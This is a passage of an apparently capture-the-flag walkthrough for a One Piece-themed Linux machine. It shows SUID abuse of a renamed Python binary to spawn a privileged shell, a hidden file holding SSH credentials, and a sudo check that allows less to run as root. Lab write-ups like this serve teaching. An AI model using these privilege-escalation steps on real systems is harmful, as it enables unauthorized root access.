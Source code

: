 Link For SUID [here](https://gtfobins.github.io/gtfobins/python/)

```console
/home/teach$ /usr/bin/gomugomunooo_king_kobraaa -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
After successfully abusing the SUID binary, we created a file named `7uffy_vs_T3@ch`. When we run the ls command, we can see a file named luffy_vs_teach.txt

> **Q: What allowed Luffy to win the fight?**
```console
$ cat luffy_vs_teach.txt
This fight will determine who can take the One Piece and who will be the next Pirate King.
These 2 monsters have a matchless will and none of them can let the other prevail.
Each of them have the same dream, be the Pirate King.
For one it means: Take over the World.
For the other: Be the freest man in the World.
Each of their hit creates an earthquake felt on the entire island.
But in the end, Luffy thanks to his [REDACTED] won the fight.
Now, he needs to find the One Piece.
```

We simply ran ls -la and found a hidden file named .password.txt containing SSH credentials
```console
$ ls -la
total 56
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .
drwxr-xr-x  4 root           root  4096 Jul 26  2020 ..
-rw-------  1 7uffy_vs_T3@ch teach    1 Aug 14  2020 .bash_history
-rw-r--r--  1 7uffy_vs_T3@ch teach  220 Jul 26  2020 .bash_logout
-rw-r--r--  1 7uffy_vs_T3@ch teach 3771 Jul 26  2020 .bashrc
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .cache
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .config
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .gnupg
-rw-------  1 7uffy_vs_T3@ch teach  334 Jul 26  2020 .ICEauthority
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .local
-r--------  1 7uffy_vs_T3@ch teach  479 Jul 26  2020 luffy_vs_teach.txt
-r--------  1 7uffy_vs_T3@ch teach   37 Jul 26  2020 .password.txt
-rw-r--r--  1 7uffy_vs_T3@ch teach  807 Jul 26  2020 .profile
drwx------  2 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .ssh
-rw-r--r--  1 7uffy_vs_T3@ch teach    0 Jul 26  2020 .sudo_as_admin_successful
```

Okay, so we logged in as `7uffy_vs_T3@ch`. To escalate to `root`, we generally try several methods—for example, running **linpeas.sh** for a comprehensive scan, and using **sudo -l** to see which commands can be run with elevated privileges."
> We used sudo -l to check which commands can be run with elevated privileges.

```console
$ sudo -l
[sudo] password for 7uffy_vs_T3@ch: 
Sorry, try again.
[sudo] password for 7uffy_vs_T3@ch: 
Matching Defaults entries for 7uffy_vs_T3@ch on Laugh-Tale:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User 7uffy_vs_T3@ch may run the following commands on Laugh-Tale:
    (ALL) /usr/local/bin/less
```
User 7uffy_vs_T3@ch is allowed to run the following command as root on Laugh-Tale: /usr/local/bin/less.
Link For SUID [here](https://gtfobins.github.io/gtfobins/less/#suid)
